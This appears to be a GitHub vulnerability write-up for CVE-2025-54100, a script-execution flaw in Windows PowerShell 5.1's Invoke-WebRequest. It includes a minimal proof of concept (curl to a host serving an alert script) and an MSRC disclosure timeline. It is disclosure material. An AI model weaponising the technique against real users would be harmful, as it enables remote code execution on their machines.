




# CVE-2025-54100


Powershell's `curl` uses `Invoke-WebRequest` underneath.

```
PS C:\Users\melih> curl

cmdlet Invoke-WebRequest at command pipeline position 1
Supply values for the following parameters:
Uri:
```


https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.5

Looking at the documentation of parameter `UseBasicParsing`,

> This parameter has been deprecated. Beginning with PowerShell 6.0.0, all Web requests use basic parsing only. This parameter is included for backwards compatibility only and any use of it has no effect on the operation of the cmdlet. 


The issue lies in `UseBasicParsing` of `Invoke-WebRequest` cmdlet of Powershell. `UseBasicParsing` uses basic parsing, it does not evaluate any javascript code. It just reads the text and parses it. 

If this parameter is not provided, `Invoke-WebRequest` launches the Internet Explorer underneath and tries to parse the html code by actually evaluating it, using `mshtml.HTMLDocumentClass`. Performing a `curl` request to a website that hosts a javascript code, results in code execution on the client's browser. which is the windows terminal in our case.


`mshtml.HTMLDocumentClass` documentation can be found below.

https://learn.microsoft.com/en-us/dotnet/api/system.windows.forms.htmldocument


Looking at the life cycle from the first document above we can see that,

> Windows PowerShell 5.1 Aug-2016 Released in Windows 10 Anniversary Update and Windows Server 2016, WMF 5.1
> PowerShell 6.0 20-Jan-2018 13-Feb-2019 Built on .NET Core 2.0 (https://github.com/dotnet/core/blob/main/release-notes/2.0/2.0-supported-os.md)


After some investigation we noticed that the latest versions of windows 11, server 22 and 25 are shipped with old version of powershell (5.1 and it is default) which is vulnerable to XSS attacks.

Fresh Windows Server 22 installation,



# PoC
The attack is very simple;


* Host a website with a script payload.
* Curl to it and you'll see the execution



```powershell
PS C:\Users\melih> curl 172.27.223.167:8000/a.js


StatusCode        : 200
StatusDescription : OK
Content           : <script>alert(1)</script>

RawContent        : HTTP/1.0 200 OK
                    Content-Length: 26
                    Content-Type: text/javascript
                    Date: Tue, 09 Dec 2025 15:50:40 GMT
                    Last-Modified: Tue, 09 Dec 2025 15:47:18 GMT
                    Server: SimpleHTTP/0.6 Python/3.12.3

                    <script>a...
Forms             : {}
Headers           : {[Content-Length, 26], [Content-Type, text/javascript], [Date, Tue, 09 Dec
                    2025 15:50:40 GMT], [Last-Modified, Tue, 09 Dec 2025 15:47:18 GMT]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        : mshtml.HTMLDocumentClass
RawContentLength  : 26


```


You can get creative and perform things like `open("about:blank")`. 




One also must consider that, this could be used in bigger chains like browser exploits to have a reliable execution or force browser rendering.

# MSRC Update Timeline
* 15 Oct 2025 – The vulnerability was submitted to the Microsoft Security team via MSRC.
* 16 Oct 2025 – The team informed us that they have begun reviewing the report.
* 17 Nov 2025 – The team confirmed the vulnerability and informed us that they would fix it. The full message from the MSRC team: “We confirmed the behavior you reported. We'll continue our investigation and determine how to address this issue. Please let me know if you have additional information that could aid our investigation, or if you have questions.”
* November 25, 2025 - The report was classified as `Severity: Important`, `Security Impact: Remote Code Execution` and awarded a **$5,000** bounty.


